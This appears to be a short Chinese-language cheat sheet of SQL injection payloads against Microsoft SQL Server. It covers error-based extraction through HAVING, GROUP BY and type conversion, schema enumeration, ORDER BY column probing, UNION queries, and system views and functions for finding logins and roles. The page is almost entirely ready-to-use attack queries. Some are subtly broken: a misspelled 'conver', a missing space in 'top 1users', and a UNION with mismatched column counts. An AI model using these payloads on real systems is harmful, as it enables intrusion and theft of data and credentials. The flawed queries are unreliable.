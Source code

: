 ## MSSQL
### 获取数据
#### 利用错误消息提取信息
```
# 枚举表与列
select * from users where username='root' and password='root' having 1=1 --';
select * from users where username='root' and password='root' group by users.id having 1=1 --';

# 利用数据类型转换提取数据
select * from users where username='root' and password='root' and 1>(select top 1 username from users);
select * from users where username='root' and password='root' and 1=conver(int,(select top 1users.username from users));
```

#### 获取元数据
```
# 获取表信息
select table_name from information_schema.tables;

# 获取字段信息
select column_name from information_schema.columns where table_name='users';
```

数据库视图						|	说明		
---								|	---
sys.database					|	SQL Server中的所有数据库
sys.sql_logins				|	SQL Server中的所有登录名
information_schema.tables	|	当前用户数据库中的表
information_schema.columns	|	当前用户数据库中的列
sys.all_columns				|	用户定义对象和系统对象的所有列的联合
sys.database_principals		|	数据库中每个权限或列异常权限
sys.database_files			|	存储在数据库中的数据库文件
sysobjects					|	数据库中创建的每个对象

#### order by子句
```
# 测试字段
select id,username,password from users where id=1 order by num;
```

#### union查询
```
select id,username,password from users where id=1 union select 1,2,3;
select id,username,password from users where id=1 union select user from users;
```

### MSSQL函数
函数								|	说明
---									|	---
select suser_name()				|	返回用户的登录标识名
select user_name()				|	基于指定的标识号返回数据库用户名
select db_name()					|	返回数据库名称
select is_member('db_owner')	|	是否为数据库角色
select convert(int,'5')			|	数据库类型转换
stuff								|	字符串截取函数
ascii								|	取ascii码
char								|	根据ascii码取字符
getdate							|	返回日期
count								|	返回组中的总条数
cast								|	将一种数据类型的表达式显式转换为另一种数据类型的表达式
rand								|	返回随机值
is_srvrolemember					|	指示SQL Server登录名是否为指定服务器角色的成员
